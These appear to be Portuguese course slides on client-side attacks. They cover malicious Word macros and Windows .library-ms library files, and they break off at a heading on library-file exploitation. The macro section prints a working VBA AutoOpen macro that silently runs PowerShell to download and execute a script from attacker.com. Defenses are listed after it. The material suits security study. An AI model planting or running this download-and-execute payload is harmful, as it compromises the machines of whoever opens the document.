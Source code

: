     - Macros podem ser manipuladas para executar código malicioso, como um **shell reverso**.
    - O atacante cria uma macro VBA dentro de um documento Word, que, ao ser aberta, executa comandos arbitrários.
- **Como Funciona:**
    
    - Ao abrir o documento Word, a macro é executada automaticamente.
    - A macro pode ser configurada para iniciar um **shell reverso** que se conecta ao atacante via rede (usualmente em uma porta específica).
    - O código da macro geralmente executa um comando `mshta` ou `powershell` para baixar e executar um payload malicioso.
- **Exemplo de Código VBA para Shell Reverso:**

    ```vb
    Sub AutoOpen()     
	    Set objShell = CreateObject("WScript.Shell")     
	    objShell.Run "powershell -NoP -NonI -W Hidden -Exec Bypass -Command IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')" 
	End Sub
    ```

- **Defesas Contra Exploração de Macros:**
    
    - Desabilitar macros em documentos de fontes desconhecidas.
    - Utilizar antivírus e sistemas de proteção que detectam comportamento anômalo.
    - Configurar o Word para bloquear macros por padrão e permitir apenas macros assinadas.

## Slide 4 
Os arquivos de biblioteca do Windows (**.library-ms**) são arquivos XML especiais que definem **bibliotecas** no Windows Explorer. Eles foram introduzidos no Windows 7 e são usados para **agrupar pastas** de diferentes locais em um único "espaço" virtual, facilitando o acesso a arquivos relacionados, mesmo que estejam armazenados em locais diferentes.

### Estrutura dos Arquivos `.library-ms`

Esses arquivos são compostos por várias seções em XML que definem como a biblioteca deve se comportar:

1. **Namespace e versão**: Define a compatibilidade com o sistema operacional.
2. **Nome da biblioteca**: Especifica o nome exibido no Windows Explorer.
3. **Localizações da biblioteca**: Lista os caminhos locais ou remotos que a biblioteca irá acessar.
4. **Ícone**: Define o ícone que será exibido para o arquivo da biblioteca.
5. **Opções adicionais**: Como fixar a biblioteca no painel de navegação ou especificar tipos de conteúdo (documentos, imagens, etc.).

### Exemplo de Uso Legítimo

Um arquivo `.library-ms` pode agrupar pastas de documentos locais e de rede em uma única biblioteca chamada "Documentos". Assim, o usuário acessa todos os documentos em um único lugar, mesmo que estejam espalhados em diferentes locais.

### Exploração em Ataques
